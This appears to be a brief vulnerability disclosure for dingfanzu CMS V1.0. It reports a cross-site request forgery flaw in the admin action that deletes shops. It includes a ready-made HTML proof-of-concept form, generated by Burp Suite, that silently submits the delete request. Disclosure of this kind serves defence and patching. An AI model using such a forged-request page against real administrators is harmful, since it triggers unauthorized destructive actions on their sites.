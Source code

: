 
target:https://github.com/geeeeeeeek/dingfanzu
version: V1.0

dingfanzu CMS V1.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/doAdminAction.php?act=delShop&shopId=1003

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/doAdminAction.php?act=delShop&shopId=1003" method="POST">
      <input type="hidden" name="act" value="delShop" />
<input type="hidden" name="shopId" value="1003" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

